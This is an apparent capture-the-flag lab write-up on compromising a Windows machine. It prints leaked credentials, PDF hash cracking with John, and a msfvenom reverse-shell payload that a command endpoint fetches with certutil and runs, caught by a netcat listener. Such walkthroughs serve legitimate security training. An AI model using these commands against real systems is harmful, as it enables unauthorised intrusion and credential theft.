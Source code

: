 # Starting off with Nmap scan:
`nmap -A [ip]`

Found Microsoft HTTPAPI/2.0
![aef86baa9d7354a521f604b96d71912a.png](../../../../_resources/aef86baa9d7354a521f604b96d71912a.png)

Visit port 8089 in browser:
![79538b38fd511a42c652f5b773339c35.png](../../../../_resources/79538b38fd511a42c652f5b773339c35.png)

Click on the buttons:
![745fc3b6a2358959655c84313d13eb0c.png](../../../../_resources/745fc3b6a2358959655c84313d13eb0c.png)
Redirected to another IP at port 333333

# Try to curl port 33333 on the target:
![c0956f60be12ee4397164e10d6c6d4c3.png](../../../../_resources/c0956f60be12ee4397164e10d6c6d4c3.png)
Notice  that curling list-running-procs on port 33333 on target returns 'Cannot "GET"' message

Trying POST
Looked up how to send a post request using curl and found:
`curl -X POST http://192.168.144.99:33333/list-running-procs`
![7f45572eaedce9721f52c26c3118f63d.png](../../../../_resources/7f45572eaedce9721f52c26c3118f63d.png)
Looks like it's missing a content length. I looked up how to add one using curl:
Using `curl -d ""` allows to specify content length in the request:
Tried this:
`curl -d "1" -X POST http://192.168.144.99:33333/list-running-procs`
![ab548ccb95ecc795668843553ca3d49b.png](../../../../_resources/ab548ccb95ecc795668843553ca3d49b.png)
Awesome, got the system process list. Found an interesting one that has what appears to be a user name and password from a cmd session:
![159b5825dc71568f4990827e127e41d7.png](../../../../_resources/159b5825dc71568f4990827e127e41d7.png)
username: ariah
pass: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

The password seems to be encrypted or encoded. I tried the simple base 64 decode in Kali, and it worked to show what seems like a password:
![accbec68d5b9a34959013c116f3f7202.png](../../../../_resources/accbec68d5b9a34959013c116f3f7202.png)
user: ariah
password: NowiseSloopTheory139

Tried to login using ftp with the newly discovered creds:
![9f12aecd222c17631b53be7a442ffbf7.png](../../../../_resources/9f12aecd222c17631b53be7a442ffbf7.png)

Checked for any files:
![7ff4c894100deae2a1d1837268ac3087.png](../../../../_resources/7ff4c894100deae2a1d1837268ac3087.png)
Found Infrastructure.pdf

Downloaded Infrastructure.pdf:
![1b6aa781fb3a570f92b28d13b628a112.png](../../../../_resources/1b6aa781fb3a570f92b28d13b628a112.png)

Tried to open it, but it's password protected. Tried the password for ariah, but that did not work:
![28dc628bca5f4a5ca2cc5625e5890a65.png](../../../../_resources/28dc628bca5f4a5ca2cc5625e5890a65.png)

# Using John to get it. Use pdf2john.pl:
`/usr/share/john/pdf2john.pl Infrastructure.pdf > InfraPDFhash`
![8cf8570f7d2b56db0d2596fac36cfac9.png](../../../../_resources/8cf8570f7d2b56db0d2596fac36cfac9.png)
Didn't work properly. Since the above screenshot said the pdf file may not have been transferred properly, I decide to try to login using ssh:
`ssh ariah@192.168.144.99`
![5bb96d766f48cd0c9b04cb52cbec78fe.png](../../../../_resources/5bb96d766f48cd0c9b04cb52cbec78fe.png)
Okay, there we go. I'm now on the machine. Let's browse for files:
Found the local.txt in the Desktop:
![8bc989085e9389a370b5d945fe20680e.png](../../../../_resources/8bc989085e9389a370b5d945fe20680e.png)

Found ftp directory on the c drive. Maybe I can get that pdf from here instead:
![8269dd9a3ac2d2b1ac6dd70977d5311a.png](../../../../_resources/8269dd9a3ac2d2b1ac6dd70977d5311a.png)

# Decide to use scp to get the file:
`scp ariah@192.168.144.99:C:/ftp/Infrastructure.pdf .`
![5bb094f2a73523d2aafd8a833cd8ec23.png](../../../../_resources/5bb094f2a73523d2aafd8a833cd8ec23.png)

# Trying John again:
![adf76c70cf2071a0848ae646d145424b.png](../../../../_resources/adf76c70cf2071a0848ae646d145424b.png)
Seems to have worked this time:
![3219cb120d26317fc69f7f6c165d8e25.png](../../../../_resources/3219cb120d26317fc69f7f6c165d8e25.png)
Running John to try and crack the pdf:
![9693cecea6d2afed1e805e5e4e118fa1.png](../../../../_resources/9693cecea6d2afed1e805e5e4e118fa1.png)
Updated John command to specify rockyou.txt:
![267b42927d93021b1213c9ff1c7e7858.png](../../../../_resources/267b42927d93021b1213c9ff1c7e7858.png)
pdf pass: ariah4168

Finally unlocked the pdf:
![67c815ebfc6ef4d6e7d9ab50256b9e3a.png](../../../../_resources/67c815ebfc6ef4d6e7d9ab50256b9e3a.png)

# Ran netstat on the machine logged in as ariah to check ports that these servers could be running on:
![60b5d8ff94c35b28b4314ead0e00ee65.png](../../../../_resources/60b5d8ff94c35b28b4314ead0e00ee65.png)
Some ports that didn't show up in the nmap scan. Interesting.

Checking the http://nickel/? command endpoint on the system:
`curl http://nickel/?whoami`
![3626e36afcfc049415fd1b21e4a6d7b0.png](../../../../_resources/3626e36afcfc049415fd1b21e4a6d7b0.png)

# Construct a reverse shell to be executed on the temporary command endpoint:
- Using msfvenom to create the shell.exe (since this is a windows machine)
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.144 LPORT=4444 -f exe > shell.exe`
dissecting the command:
-p = payload 
LHOST = my attack machine IP (the one for tun0 for the VPN I'm on)
LPORT = local attack machine port to listen on
-f = file type for the payload shell
-> = write to a file
![3c04b8485a81a0d878aaed61af193f3a.png](../../../../_resources/3c04b8485a81a0d878aaed61af193f3a.png)

- Start webserver from directory where shell lives now:
`python3 -m http.server 80`
![3a761fd63f9813fd3a08ee620d4ea782.png](../../../../_resources/3a761fd63f9813fd3a08ee620d4ea782.png)

- Use certutil to get the shell.exe from the attacker machine onto the target:
`certutil.exe -urlcache -f http://192.168.49.144/shell.exe shell.exe`
![999fec0e54012894f4996be983f3551f.png](../../../../_resources/999fec0e54012894f4996be983f3551f.png)
![66cb9b3e7f3d2b306bba3d3ddb912028.png](../../../../_resources/66cb9b3e7f3d2b306bba3d3ddb912028.png)

- Kill python server on attack machine and start netcat listener on port specified in payload:
`nc -nlvp 4444` 
![4ce2d1fd8389ebdec93f41d8b6a668aa.png](../../../../_resources/4ce2d1fd8389ebdec93f41d8b6a668aa.png)

Make sure we can use curl to find the file on victim machine when going through command endpoint before trying to execute the shell.exe:
`curl http://nickel/?'cmd /c dir C:\Users\ariah'`
![63f0efb6253284fa65675de0a64997ee.png](../../../../_resources/63f0efb6253284fa65675de0a64997ee.png)
malformed url typically means the string needs to be url encoded
I'm trying to use https://www.urlencoder.org/
cmd /c dir C:\Users\ariah becomes cmd%20%2Fc%20dir%20C%3A%5CUsers%5Cariah

Using this in place of the desired command in the URL on the target like so:
`curl http://nickel/?cmd%20%2Fc%20dir%20C%3A%5CUsers%5Cariah`
produces the following:
![6e1f7e7d9cbcdc83d81b05d98314ed71.png](../../../../_resources/6e1f7e7d9cbcdc83d81b05d98314ed71.png)

Okay, now that the URL is formed properly, I should be able to execute the shell:
Running cmd /c C:\Users\ariah\shell.exe would normally do it. So I just need to URL encode this command like I did the previous one:
![e0fa4ffeaa383fcf662fad2081d024cb.png](../../../../_resources/e0fa4ffeaa383fcf662fad2081d024cb.png)
The full command should be:
`curl http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5Cshell.exe`

This was not working for whatever reason with the port 4444 and the payload I specified earlier so I instead created a new one and used port 80 with netcat to listen. This is the command used to generate the new payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.144 LPORT=80 -f exe > f.exe`
![5a59b8cef219c538cab62266ae6c1ccb.png](../../../../_resources/5a59b8cef219c538cab62266ae6c1ccb.png)
I then uploaded this to the target as g.exe using this command:
`certutil.exe -urlcache -f http://192.168.49.144/f.exe g.exe`
![eed150ada09d918794f0bb97eadb1630.png](../../../../_resources/eed150ada09d918794f0bb97eadb1630.png)

Started my netcat listener on port 80:
`nc -nlvp 80`
![3d306919d08bdec857715cea7f447b5d.png](../../../../_resources/3d306919d08bdec857715cea7f447b5d.png)

Encoding the appropriate command for the URL:
![ce9902e01d02ed69014c925d5cc715e4.png](../../../../_resources/ce9902e01d02ed69014c925d5cc715e4.png)

Ran the command on the target to execute the g.exe:
`curl http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5Cg.exe`
![42fb72a37428a4635c75c6dc00652c07.png](../../../../_resources/42fb72a37428a4635c75c6dc00652c07.png)

And watched the shell come to my netcat listener:
![b3b3b0ba8d0d5c62cc7c9866c6b6b3b9.png](../../../../_resources/b3b3b0ba8d0d5c62cc7c9866c6b6b3b9.png)

Found the proof.txt in Administrator Desktop:
![d447719434575be0d5afac23fbc7c217.png](../../../../_resources/d447719434575be0d5afac23fbc7c217.png)


